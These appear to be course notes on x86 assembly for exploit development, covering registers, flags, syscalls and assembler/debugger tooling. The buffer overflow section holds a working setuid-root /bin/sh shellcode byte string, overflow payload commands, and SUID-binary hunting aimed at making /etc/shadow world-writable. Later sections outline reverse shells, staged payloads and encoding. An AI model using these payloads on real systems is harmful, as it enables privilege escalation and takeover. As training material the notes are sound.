

# x86 Assembly Intro

#assembly #x86 #exploitdev #shellcode #gdb #gef #nasm #pwntools #bufferoverflow #syscalls #linux

## What is this?

Intro-level x86 (32-bit) assembly for exploit development — registers, flags, syscalls, and the toolchain that turns a `.asm` file into raw opcodes you can drop into a payload. The goal isn't writing applications in assembly; it's reading disassembly, hand-crafting shellcode with no null bytes, and understanding what a stack smash actually does to `EIP`.

Antisyphon course notes, 2023-12-07. Pairs with [[Shells & Payloads]], [[AV & EDR Evasion]], [[Linux Priv Esc]].

---

## Tools

| Tool | Use |
|---|---|
| [[Tools/Exploit Development/GDB-pwndbg\|GDB + GEF/pwndbg]] | Debug, single-step, inspect registers and stack; GEF adds `shellcode`/`pattern` helpers |
| [[Tools/Exploit Development/NASM\|NASM]] | Assemble `.asm` → `.o` object file |
| [[Tools/Exploit Development/pwntools\|pwntools]] | `pwn asm` / `pwn disasm` — assemble or disassemble without a full build |
| `gcc` | Compile C, or assemble+link in one step ([docs](https://gcc.gnu.org/onlinedocs/)) |
| `ld` | Link the object file into an ELF |
| `objdump` | Disassemble an ELF and dump opcode bytes |
| `strace` | Trace the syscalls a binary actually makes — fastest way to see what an ELF does |

---

## CPU Privilege Rings

| Ring | Name | Notes |
|---|---|---|
| **-1** | Hypervisor | VMX root / SVM — below the OS entirely |
| **0** | Kernel space | Full hardware access; the kernel and drivers live here |
| **1–2** | (unused) | Defined by x86, unused by Linux and Windows |
| **3** | User space | Where every process runs — **including root** |

> [!note]
> Root ≠ Ring 0. Escalating to root keeps you in Ring 3; reaching Ring 0 needs a kernel exploit or a loadable driver.

---

## Registers (32-bit)

The original class note deferred this to "see assembly notes" — no such note exists in the vault, so the tables live here.

| Register | Name | Conventional use |
|---|---|---|
| `EAX` | Accumulator | Return values; **syscall number** |
| `EBX` | Base | Syscall arg 1 |
| `ECX` | Counter | Loop counter (`LOOP`); syscall arg 2 |
| `EDX` | Data | I/O; syscall arg 3 |
| `ESI` | Source Index | Source pointer for string ops; syscall arg 4 |
| `EDI` | Destination Index | Destination pointer for string ops; syscall arg 5 |
| `EBP` | Base Pointer | Frame pointer; syscall arg 6 |
| `ESP` | Stack Pointer | Top of stack |
| `EIP` | Instruction Pointer | Next instruction — **not directly writable**; changed via `JMP`/`CALL`/`RET`, or by overwriting a saved return address |

### Sub-register access

`EAX` is 32 bits, but its lower halves are separately addressable — this is the basis of null-byte avoidance:

![[x86-sub-registers.svg]]

Same pattern for `EBX`/`ECX`/`EDX`. `ESI`, `EDI`, `EBP`, `ESP` have 16-bit forms (`SI`, `DI`, `BP`, `SP`) but no 8-bit halves.

### 64-bit differences

| | 32-bit | 64-bit |
|---|---|---|
| Registers | `EAX`–`EDI` | `RAX`–`RDI` plus `R8`–`R15` |
| Syscall entry | `int 0x80` | `syscall` instruction |
| Syscall number | `EAX` | `RAX` |
| Argument order | `EBX, ECX, EDX, ESI, EDI, EBP` | `RDI, RSI, RDX, R10, R8, R9` |
| Number table | `unistd_32.h` | `unistd_64.h` |

> [!warning]
> Syscall numbers differ between the two tables — `execve` is 11 on 32-bit but 59 on 64-bit. Never carry a number across architectures.

---

## EFLAGS

Mostly single-bit, set automatically as a side effect of arithmetic and logic instructions.

| Flag | Bit | Set when |
|---|---|---|
| `CF` Carry | 0 | Carry/borrow out of the most significant bit — **unsigned** overflow |
| `PF` Parity | 2 | Low byte of the result has an even number of set bits |
| `AF` Adjust | 4 | Carry out of bit 3 (BCD arithmetic) |
| `ZF` Zero | 6 | Result was zero |
| `SF` Sign | 7 | MSB of the result is set (negative) |
| `TF` Trap | 8 | Single-step mode — set by debuggers |
| `IF` Interrupt | 9 | Interrupts enabled |
| `DF` Direction | 10 | String ops iterate **downward** (`STD` sets, `CLD` clears) |
| `OF` Overflow | 11 | **Signed** overflow — result too large for the destination |

> [!note]
> `CF` and `OF` are not interchangeable. `CF` is unsigned overflow, `OF` is signed. Which one a conditional jump reads is exactly what makes `JA` (unsigned) differ from `JG` (signed).

---

## Core Instructions

```nasm
mov  eax, ebx        ; copy ebx into eax
xor  eax, eax        ; zero a register — 2 bytes, no null byte
inc  ecx             ; ecx++
dec  ecx             ; ecx--
push eax             ; ESP -= 4, then write eax at [ESP]
pop  eax             ; read [ESP] into eax, then ESP += 4
lea  ecx, [esp+8]    ; load the ADDRESS esp+8 into ecx (no memory read)
call func            ; push return address, jump to func
ret                  ; pop return address into EIP
int  0x80            ; software interrupt — 32-bit Linux syscall entry
nop                  ; 0x90 — do nothing
```

### XOR

| A | B | A XOR B |
|---|---|---|
| 0 | 0 | 0 |
| 0 | 1 | 1 |
| 1 | 0 | 1 |
| 1 | 1 | 0 |

Same bits → `0`, different bits → `1`. Two consequences that come up constantly:

- `xor eax, eax` zeroes a register with no literal `0` in the encoding — the standard null-byte-free idiom.
- XOR is its own inverse, which makes it the default shellcode encoder (see [[#Encoding]]).

### CMP vs TEST

```nasm
cmp  eax, ebx        ; computes eax - ebx, DISCARDS the result, sets flags
test eax, eax        ; computes eax AND eax, DISCARDS the result, sets flags
```

| Instruction | Operation | Typical use |
|---|---|---|
| `CMP` | Subtraction, result discarded | Ordering comparisons → `JE`/`JG`/`JB`… |
| `TEST` | Bitwise AND, result discarded | "Is it zero?" / "is this bit set?" → `JZ`/`JNZ`/`JS` |

`test eax, eax` sets `ZF=1` when `eax` **is zero**. It's shorter than `cmp eax, 0` and carries no null byte, which is why compilers emit it everywhere.

---

## Jumps

Conditional jumps read EFLAGS. The signed/unsigned split is the thing to internalise — an unsigned jump on signed data is a classic logic bug.

| Mnemonic | Meaning | Type | Condition |
|---|---|---|---|
| `JE` / `JZ` | Equal / zero | Both | `ZF=1` |
| `JNE` / `JNZ` | Not equal / not zero | Both | `ZF=0` |
| `JA` / `JNBE` | Above | Unsigned | `CF=0 and ZF=0` |
| `JAE` / `JNB` / `JNC` | Above or equal | Unsigned | `CF=0` |
| `JB` / `JNAE` / `JC` | Below | Unsigned | `CF=1` |
| `JBE` / `JNA` | Below or equal | Unsigned | `CF=1 or ZF=1` |
| `JG` / `JNLE` | Greater | Signed | `ZF=0 and SF=OF` |
| `JGE` / `JNL` | Greater or equal | Signed | `SF=OF` |
| `JL` / `JNGE` | Less | Signed | `SF≠OF` |
| `JLE` / `JNG` | Less or equal | Signed | `ZF=1 or SF≠OF` |
| `JS` | Sign (negative) | Both | `SF=1` |
| `JNS` | Not sign | Both | `SF=0` |
| `JO` | Overflow | Both | `OF=1` |
| `JNO` | Not overflow | Both | `OF=0` |
| `JP` / `JPE` | Parity even | Both | `PF=1` |
| `JNP` / `JPO` | Parity odd | Both | `PF=0` |
| `JMP` | Unconditional | — | always |

> [!tip]
> Above/Below = **unsigned**. Greater/Less = **signed**. Mnemonics sharing a row are literal synonyms — they assemble to identical opcodes.

### Labels

Assembler labels are `goto` targets, not functions. Execution **falls through** a label if no `JMP` or `CALL` redirects it — there is no implicit return.

---

## The Stack



The stack **grows toward lower addresses** (`push` decrements `ESP`), but an overflow writes **upward** toward higher addresses — which is why a buffer at the bottom can reach the saved `EIP` above it.

- **Grows toward lower addresses.** `sub esp, 16` *allocates* 16 bytes; `add esp, 16` frees them.
- **Data is not erased on free** — it persists until overwritten, which is why uninitialised stack reads leak old data.
- **Bounded**: Linux default is 8 MB (`ulimit -s` → `8192` KB). Running past the end → `SIGSEGV`.

> [!note]
> The original note described `sub esp, 16` as moving "up" the stack. That's how people usually talk about stack *growth*, but the arithmetic is a subtraction — `ESP` moves to a **lower** address. Saying "allocate" instead of up/down removes the ambiguity.

---

## Linux Syscalls (32-bit)

```nasm
; exit(0)
xor eax, eax
mov al, 1            ; __NR_exit
xor ebx, ebx         ; status = 0
int 0x80
```

Convention: **number in `EAX`**, arguments in `EBX, ECX, EDX, ESI, EDI, EBP`, return value back in `EAX`.

```bash
# The authoritative number table on Debian/Ubuntu
grep __NR_execve /usr/include/x86_64-linux-gnu/asm/unistd_32.h

# Signature, argument count, return semantics — section 2 is syscalls
man 2 execve

# What is this binary actually doing?
strace ./target
```

| Syscall | 32-bit number | Hex | Notes |
|---|---|---|---|
| `exit` | 1 | `0x01` | Terminates **the calling process** |
| `read` | 3 | `0x03` | Used by staged shellcode to pull stage 2 |
| `write` | 4 | `0x04` | |
| `execve` | 11 | `0x0b` | The shell-spawning primitive |
| `setuid` | 23 | `0x17` | `setuid(0)` before `execve` for a root shell |
| `socketcall` | 102 | `0x66` | Multiplexed socket API, kernels < 4.3 |
| `socket` | 359 | `0x167` | Direct socket syscall, kernels ≥ 4.3 |

> [!warning]
> `exit` terminates the **calling** process, not its parent — the original note had this reversed. Calling `exit` in shellcode where you meant to keep a shell alive kills your own payload.

**`0x80` is hexadecimal — 128 decimal.** "80d" is a different interrupt entirely.

Some syscalls take their arguments through a pointer to a struct on the stack rather than in registers; `socketcall` is the first one you'll hit.

---

## Assembling, Linking, Disassembling

```bash
# NASM -> object file (this is what carries the opcodes you want)
nasm -f elf32 shell.asm -o shell.o

# Link the object into a runnable ELF
ld -m elf_i386 shell.o -o shell

# One-step build from C: 32-bit, executable stack, debug symbols
gcc -m32 -z execstack -g vuln.c -o vuln
```

| Flag | Meaning |
|---|---|
| `-f elf32` | NASM output format: 32-bit ELF object |
| `-m elf_i386` | `ld` target: 32-bit x86 |
| `-m32` | `gcc`: build 32-bit |
| `-z execstack` | Mark the stack executable — required for classic stack shellcode |
| `-g` | Include debug symbols |

```bash
# Disassemble in Intel syntax — note the CAPITAL -M
objdump -d -M intel ./shell

# Assemble / disassemble ad hoc, no build needed
pwn asm 'nop; nop; xor eax, eax'
pwn disasm '31c0'
```

> [!warning]
> It is `objdump -M intel` (capital M — "disassembler options"), not `-m intel`. Lowercase `-m` sets the *machine architecture* and will either error or silently do the wrong thing. The original note had this wrong.

---

## Debugging — GDB + GEF

```bash
gdb -q ./shell            # -q suppresses the banner
gdb -q -c core.27125      # post-mortem on a core dump
```

| Command | Does |
|---|---|
| `start` | Run and break at `main` |
| `stepi` / `si` | Step exactly one instruction |
| `nexti` / `ni` | Step one instruction, stepping over `call` |
| `info registers` | Dump register state |
| `x/16xb $esp` | Examine 16 bytes of stack in hex |

GEF extras that matter for shellcode work:

```text
gef> shellcode search bind      # search the shell-storm archive
gef> shellcode get <id>         # download a specific sample
gef> pattern create 200         # cyclic pattern for offset discovery
gef> pattern search $esp        # reports the offset directly
gef> checksec                   # NX / canary / PIE / RELRO status
gef> config context.show_opcodes_size 8
```

> [!tip]
> On a core dump, search for `0x41414141` — four `A`s in 32-bit, not five — to find where padding landed in `EIP`. `pattern create` / `pattern search` gets the offset without counting bytes.

Alternatives to GEF: **pwndbg** (covered in the same vault note) and **PEDA** (older, largely superseded).

---

## Shellcode

Shellcode is raw opcode bytes — the machine-code encoding of instructions, with no ELF wrapper, no loader, and **no `.data` section**. Anything that would normally live in `.data` (the string `/bin/sh`, for instance) has to be built on the stack at runtime.

### Extracting opcodes

```bash
nasm -f elf32 shell.asm -o shell.o
objdump -d -M intel shell.o        # read the byte column
# or let pwntools do it
pwn asm 'xor eax, eax; mov al, 1; int 0x80'
```

### Building strings without `.data`

Push the string in **4-byte chunks, reversed** (x86 is little-endian), then point a register at `ESP`:

```nasm
xor  eax, eax
push eax                 ; NULL terminator
push 0x68732f2f          ; "//sh"  <- reversed
push 0x6e69622f          ; "/bin"  <- reversed
mov  ebx, esp            ; ebx now points at "/bin//sh"
```

`/bin//sh` rather than `/bin/sh` because the doubled slash pads it to exactly 8 bytes — two clean pushes — and the kernel treats `//` as `/`.

### Null bytes and bad characters

A null byte terminates the string copy that delivers the payload, truncating your shellcode at the first `\x00`.

| Byte | Why it breaks things |
|---|---|
| `\x00` | NUL — terminates `strcpy`/`gets` |
| `\x09` | Tab — whitespace-delimited input |
| `\x0a` | Line feed — terminates `gets`/`fgets` |
| `\x0d` | Carriage return |
| `\x20` | Space — argument splitting |

Avoidance:

```nasm
xor eax, eax         ; instead of  mov eax, 0    (encodes null bytes)
mov al, 11           ; instead of  mov eax, 11   (upper 3 bytes would be 00)
push 0x68732f2f      ; build strings; never reference .data
```

---

## Buffer Overflow — Worked Example

The lab binary `stack1` takes 140 bytes of padding before the saved return address.

```bash
# 1. Confirm the offset — look for 0x41414141 in EIP on the core dump
./stack1 `perl -e 'print "A"x140'`
gdb -q -c core.27125

# 2. Padding + return address (little-endian) + 4 filler bytes + shellcode
./stack1 `perl -e 'print "A"x140 . "\xca\x61\x55\x56" . "\x41\x41\x41\x41" . "<SHELLCODE>"'`; echo $?
```

`\xca\x61\x55\x56` is the address `0x565561ca` written little-endian.

### setuid(0) + execve — the version that works

```bash
./stack1 `perl -e 'print "A"x140 . "\xca\x61\x55\x56" . "\x41\x41\x41\x41" . "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xc9\x31\xc0\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\xb0\x0b\xcd\x80"'`; echo $?
```

Disassembled:

```nasm
xor eax, eax         ; 31 c0
mov ebx, eax         ; 89 c3        -> uid 0
mov al, 0x17         ; b0 17        -> setuid
int 0x80             ; cd 80        -> setuid(0)
xor ecx, ecx         ; 31 c9        -> argv = NULL
xor eax, eax         ; 31 c0
push ecx             ; 51           -> string terminator
push 0x68732f2f      ; 68 2f2f7368    "//sh"
push 0x6e69622f      ; 68 2f62696e    "/bin"
mov ebx, esp         ; 89 e3        -> path
xor edx, edx         ; 31 d2        -> envp = NULL
mov al, 0x0b         ; b0 0b        -> execve
int 0x80             ; cd 80        -> execve("/bin//sh", NULL, NULL)
```

### The variant that failed in class

The earlier attempt differed by trying to construct a real `argv` array:

```nasm
mov edx, ecx         ; 89 ca
push ecx             ; 51
lea ecx, [esp+0xa]   ; 8d 4c 24 0a
push ecx             ; 51
mov ecx, esp         ; 89 e1
```

`lea ecx, [esp+0xa]` lands **inside** the pushed string rather than at its start, so `argv[0]` pointed at a misaligned offset. Passing `NULL` for both `argv` and `envp` — as the working version does — avoids the problem entirely; `execve` accepts NULL for both.

> [!tip]
> Prefer `execve(path, NULL, NULL)` in shellcode. Building a correct `argv` array costs bytes and is a common source of silent failure.

### Finding SUID targets

```bash
sudo find / -user root -perm /4000 2>/dev/null | grep -v '/snap/'
```

The class objective was `chmod 0777 /etc/shadow` from a SUID-root context. `strace` on the target binary shows which syscalls it makes and where the injection point sits.

---

## Interrupts

| Interrupt | Purpose |
|---|---|
| `int 1` | Single-step / debug trap (`TF` flag) |
| `int 3` | Breakpoint — the `0xCC` byte a debugger patches in |
| `int 0x80` | Linux 32-bit syscall entry |

Real-mode 16-bit interrupts (BIOS/UEFI at boot) are hardware interrupts and use `AL`/`AH` for their arguments — a separate world from the protected-mode software interrupts above.

---

## Sockets — Bind and Reverse Shells

| Type | Behaviour |
|---|---|
| **Bind shell** | Opens a listening port on the target; attacker connects in |
| **Reverse shell** | Target connects out to the attacker's IP/port — usually the only one that survives egress filtering |

Sequence, each documented under `man 2 <name>`:

1. `socket()` — create the file descriptor
2. `connect()` (reverse) or `bind()` + `listen()` + `accept()` (bind)
3. `dup2()` ×3 — redirect stdin/stdout/stderr onto the socket
4. `execve("/bin/sh")`

### The kernel 4.3 split

```nasm
; Kernels < 4.3 (i386): everything multiplexed through socketcall
mov al, 0x66         ; __NR_socketcall
mov bl, 1            ; SYS_SOCKET sub-call
mov ecx, esp         ; pointer to the argument block on the stack
int 0x80

; Kernels >= 4.3 (i386): direct socket syscalls exist
mov eax, 359         ; __NR_socket
mov ebx, 2           ; AF_INET
mov ecx, 1           ; SOCK_STREAM
xor edx, edx         ; protocol 0
int 0x80
```

`man 2 socketcall` documents the sub-call numbering. Under `socketcall`, `EBX` holds the *sub-call* number and `ECX` points at the argument block — the arguments are **not** spread across registers the way they are for a direct syscall.

---

## Staged Shellcode

When the available buffer is too small for a full payload, inject a small stub that pulls the rest down.

1. **Stage 1** — a stub that uses `read()` to receive more bytes into a known location, then jumps to them.
2. **Stage 2** — the real payload, delivered over the same socket.

```bash
# Build a raw stage-2 blob with pwntools
pwn asm 'nop; nop; mov eax,1; mov ebx,4; int 0x80' -f raw > exit.bin
```

> [!warning]
> Use a plain ASCII hyphen in `-f raw`. The original note had an en-dash (`–f`), which the shell passes through as a literal argument and pwntools rejects. Copy-pasting from OneNote or Word is the usual source.

---

## Encoding

Encoders exist to get a payload past byte filters, not to defeat detection on their own.

- Strips bad characters (`\x00`, `\x0a`, …) from the transmitted bytes
- **XOR** is the standard choice — self-inverse, tiny decoder stub, one instruction per byte
- The decoder stub itself must contain no bad bytes, which is the real constraint

Related: [[AV & EDR Evasion]].

### NOP sleds

`0x90` is `NOP`. A sled gives an imprecise return address room to land, but a long run of `\x90` is one of the oldest IDS signatures there is — keep it minimal, or substitute semantically-equivalent junk instructions.

---

## Quick Reference

| Goal | Command / Payload |
|---|---|
| Assemble to object | `nasm -f elf32 in.asm -o out.o` |
| Link to ELF | `ld -m elf_i386 out.o -o out` |
| Compile C, 32-bit, exec stack | `gcc -m32 -z execstack -g in.c -o out` |
| Disassemble (Intel) | `objdump -d -M intel ./bin` |
| Assemble one-off | `pwn asm 'xor eax, eax; mov al, 1; int 0x80'` |
| Disassemble bytes | `pwn disasm '31c0'` |
| Raw blob to file | `pwn asm '<asm>' -f raw > stage2.bin` |
| Debug / post-mortem | `gdb -q ./bin` · `gdb -q -c core.<pid>` |
| Find overflow offset | `gef> pattern create 200` then `gef> pattern search $esp` |
| Binary protections | `gef> checksec` |
| Find shellcode sample | `gef> shellcode search bind` · `gef> shellcode get <id>` |
| Syscall number lookup | `grep __NR_execve /usr/include/x86_64-linux-gnu/asm/unistd_32.h` |
| Syscall signature | `man 2 execve` |
| Trace syscalls | `strace ./bin` |
| Find SUID binaries | `sudo find / -user root -perm /4000 2>/dev/null \| grep -v '/snap/'` |
| Zero a register (no nulls) | `xor eax, eax` |
| Test for zero | `test eax, eax` → `JZ` |
| Push `/bin//sh` | `push 0x68732f2f` then `push 0x6e69622f` |
| Overflow skeleton | `perl -e 'print "A"x<OFFSET> . "<RET-LE>" . "<SHELLCODE>"'` |

---

*Created: 2023-12-07*
*Updated: 2026-08-17*
*Model: claude-opus-5*
